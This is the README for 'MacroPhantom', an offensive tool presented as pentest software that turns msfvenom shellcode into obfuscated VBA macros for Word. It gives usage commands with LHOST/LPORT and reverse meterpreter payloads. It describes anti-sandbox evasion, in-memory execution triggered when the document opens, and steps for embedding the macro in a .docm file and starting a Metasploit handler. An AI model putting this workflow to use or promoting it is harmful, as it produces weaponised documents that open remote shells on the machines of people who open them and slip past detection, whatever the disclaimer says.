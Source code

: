 # MacroPhantom

![License](https://img.shields.io/badge/License-MIT-blue)
![Python](https://img.shields.io/badge/Python-3.8%2B-blue)
![Platform](https://img.shields.io/badge/Platform-Windows%20|%20Linux%20|%20macOS-green)

**MacroPhantom** is an advanced VBA payload generator that creates encoded and obfuscated shellcode for Microsoft Office macros, designed for security assessment and penetration testing purposes.

Created by Ivan Spiridonov (xbz0n) | [https://xbz0n.sh](https://xbz0n.sh)

## Features

- XOR and Caesar-based shellcode encoding
- Anti-sandbox techniques to evade detection
- Support for both modern and legacy Microsoft Word versions
- Customizable encoding keys
- Automatic Metasploit handler generation
- Cross-platform compatibility

## Requirements

- Python 3.8 or higher
- Metasploit Framework
- Mono (for Linux/macOS users)

## Installation

1. Clone the repository:
```bash
git clone https://github.com/username/MacroPhantom.git
cd MacroPhantom
```

2. Ensure requirements are installed:
- Python 3.8+: https://www.python.org/downloads/
- Metasploit Framework: https://www.metasploit.com/
- Mono (for Linux/macOS): `sudo apt install mono-devel` or `brew install mono`

## Usage

### Basic Usage

```bash
python3 VBS_Macro_Generator.py --LHOST <your_ip> --LPORT <your_port>
```

### Advanced Options

```bash
# Generate macros for legacy Word versions (2003-2007)
python3 VBS_Macro_Generator.py --LHOST <your_ip> --LPORT <your_port> --legacy

# Use custom encoding keys
python3 VBS_Macro_Generator.py --LHOST <your_ip> --LPORT <your_port> --xor-key 123 --add-key 5

# Use a different payload
python3 VBS_Macro_Generator.py --LHOST <your_ip> --LPORT <your_port> --payload windows/meterpreter/reverse_tcp

# Specify an output directory
python3 VBS_Macro_Generator.py --LHOST <your_ip> --LPORT <your_port> --output-dir /path/to/output
```

### Full Command Options

```
--LHOST           Local host IP address (required)
--LPORT           Local port number (required)
--payload         Msfvenom payload (default: windows/meterpreter/reverse_https)
--xor-key         XOR key value (default: 250)
--add-key         Additive key value (default: 2)
--legacy          Generate macros for Word 2007 and earlier
--output-dir      Output directory for generated files (default: current directory)
```

## Microsoft Word Compatibility

- **Modern Word (default)**: Compatible with Word 2010, 2013, 2016, 2019, 2021, and Microsoft 365
- **Legacy Word (--legacy flag)**: Compatible with Word 2003 and 2007

## How It Works

1. Generates shellcode using msfvenom with the specified LHOST and LPORT
2. Encodes the shellcode using a C# encoder with XOR and Caesar ciphers
3. Creates a VBA macro that:
   - Implements anti-sandbox techniques
   - Decodes and executes the shellcode in memory
   - Triggers on document open
4. Generates a Metasploit handler configuration

## Using the Generated Macro

1. Copy the VBA code from the generated macro file
2. Open Microsoft Word
3. Press Alt+F11 to open the VBA editor
4. Insert a new module under the 'Normal' project
5. Paste the code
6. Save as a macro-enabled document (.docm)
7. Start the Metasploit handler with: `msfconsole -r handler.rc`

## Disclaimer

This tool is provided for educational and authorized security testing purposes only. Usage of MacroPhantom for attacking targets without prior mutual consent is illegal. Users are responsible for complying with all applicable local, state, and federal laws. The author assumes no liability and is not responsible for any misuse or damage caused by this program.

## License

This project is licensed under the MIT License - see the LICENSE file for details.
